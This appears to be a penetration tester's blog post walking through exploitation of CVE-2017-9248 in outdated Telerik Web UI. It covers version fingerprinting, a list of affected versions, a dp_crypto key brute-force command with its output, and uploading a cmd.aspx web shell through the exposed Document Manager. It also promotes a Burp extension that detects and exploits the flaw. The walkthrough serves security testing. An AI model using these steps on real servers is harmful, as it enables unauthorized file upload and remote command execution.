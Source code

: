 ```yaml
---
layout: post
title:  "Pwning Web Applications via Telerik Web UI"
date:   2018-08-03
categories: pentest
---
```


## Introduction 

Over the past months, I’ve encountered a number of web applications that were using Telerik Web UI components for their application’s interface. There’s nothing wrong with using third party components to make your application’s interface the way you want it. However, a vulnerability in these components could cause you harm. 


In this post, I’m going to show you how I pwned several web applications, specifically ASP.NET ones, by abusing an outdated version of Telerik Web UI.  

## Identification

The simplest way to check if the application is using Telerik Web UI is to view its HTML source code. 
![Source1](/static/img/10/01.png)
> _**TIP #1:** There are times where you’ll not find exactly the string **Telerik.Web.UI** from the HTML code. However, if you find the string **Telerik**, just keep on browsing the other pages of the application and search for the string **Telerik.Web.UI** again._


If you’ve identified that the application is using Telerik Web UI, the next step is to identify its version and check if it’s vulnerable to [**CVE-2017-9248**](https://www.telerik.com/support/kb/aspnet-ajax/details/cryptographic-weakness).  


Finding the version can either be easy or tricky. To get the exact version, just view the HTML code. In the case below, the version information sits right next to the string **Telerik.Web.UI**. That’s easy.
![Source2](/static/img/10/02.png)

However, there are cases where the version is not located right next to the string “**Telerik.Web.UI**”. Another way to identify the version of Telerik Web UI is by going through the HTML comments just like here. 
![Source3](/static/img/10/03.png)
So, you could just view the HTML code and search for the string "**\<!---- 20**".


Once you have the version information, cross-reference it with the list of vulnerable versions. Based on the [exploitation tool](https://github.com/bao7uo/dp_crypto) written by Paul Taylor ([@bao7uo](https://twitter.com/bao7uo)), the following versions are affected:
```
2007.1423        2008.31314       2010.31317        2013.1.403        2015.2.729
2007.1521        2009.1311        2011.1315         2013.1.417        2015.2.826
2007.1626        2009.1402        2011.1413         2013.2.611        2015.3.930
2007.2918        2009.1527        2011.1519         2013.2.717        2015.3.1111
2007.2101        2009.2701        2011.2712         2013.3.1015       2016.1.113
2007.21107       2009.2826        2011.2915         2013.3.1114       2016.1.225
2007.31218       2009.31103       2011.31115        2013.3.1324       2016.2.504
2007.31314       2009.31208       2011.3.1305       2014.1.225        2016.2.607
2007.31425       2009.31314       2012.1.215        2014.1.403        2016.3.914
2008.1415        2010.1309        2012.1.411        2014.2.618        2016.3.1018
2008.1515        2010.1415        2012.2.607        2014.2.724        2016.3.1027
2008.1619        2010.1519        2012.2.724        2014.3.1024       2017.1.118
2008.2723        2010.2713        2012.2.912        2015.1.204        2017.1.228
2008.2826        2010.2826        2012.3.1016       2015.1.225        2017.2.503
2008.21001       2010.2929        2012.3.1205       2015.1.401        2017.2.621
2008.31105       2010.31109       2012.3.1308       2015.2.604        2017.2.711
2008.31125       2010.31215       2013.1.220        2015.2.623        2017.3.913
```

## Exploitation

Before jumping to the exploitation, we have to locate first the "Dialog Handler" **Telerik.Web.UI.DialogHandler.aspx**. Most of the time, it’s located at the root directory of the application. If it’s not there, try the sub-directories. To verify if you’ve found the right location, you should see the string "**Loading the dialog…**" when accessing the dialog handler.
![Loading](/static/img/10/04.png)
> _**TIP #2:** Sometimes, the sub-directory where the dialog handler is located (or where Telerik Web UI is located in general) can be found from the HTML source code._

For the exploitation, use the tool written by Paul Taylor which can be downloaded [here](https://github.com/bao7uo/dp_crypto). Credits and big thanks to him for writing this one. 


Here’s an example of the tool running to bruteforce the key and discover the hidden link to access the **Document Manager** page.
```console
root@kali:~# python dp_crypto.py -k http://www.example.com/Telerik.Web.UI.DialogHandler.aspx 48 hex 9

dp_crypto by Paul Taylor / Foregenix Ltd
CVE-2017-9248 - Telerik.Web.UI.dll Cryptographic compromise

Attacking http://www.example.com/Telerik.Web.UI.DialogHandler.aspx
to find key of length [48] with accuracy threshold [9]
using key charset [01234567890ABCDEF]

Key position 01: {D} found with 31 requests, total so far: 31
Key position 02: {3} found with 10 requests, total so far: 41
Key position 03: {A} found with 35 requests, total so far: 76
Key position 04: {D} found with 46 requests, total so far: 122
<------------------------ SNIPPED ------------------------>
Key position 45: {B} found with 50 requests, total so far: 1638
Key position 46: {3} found with 36 requests, total so far: 1674
Key position 47: {3} found with 50 requests, total so far: 1724
Key position 48: {F} found with 57 requests, total so far: 1781
Found key: D3AD[redacted]B33F
Total web requests: 1781
2014.3.1024: http://www.example.com/Telerik.Web.UI.DialogHandler.aspx?DialogName=DocumentManager&renderMode=2&Skin=Default&Title=Document%20Manager&dpptn=&isRtl=false&dp=[snipped&redacted]
```

By visiting the "**Document Manager**" link, we see that we now have access to all the files and folders of the web server. More importantly, we see that we can upload arbitrary files to the server.
![Document Manager](/static/img/10/05.png)

Here’s an example of the shell **cmd.aspx** file that I uploaded. 
![Shell](/static/img/10/06.png)

And here’s an example of a command execution using the uploaded shell.
![Shell Upload](/static/img/10/07.png)

## Telewreck

As part of my learning process, I decided to create a Burp Suite extension that can detect and exploit vulnerable instances of Telerik Web UI. I named it **Telewreck** and is available at [https://github.com/capt-meelo/Telewreck](https://github.com/capt-meelo/Telewreck). 

When running a passive scan, this extension will look for vulnerable versions of Telerik Web UI.
![Passive](/static/img/10/08.png)

A tab where you can perform the exploitation part is also available.
![Tab](/static/img/10/09.png)

That's it! 

Feel free to contribute in the development of the tool and report/fix some issues.
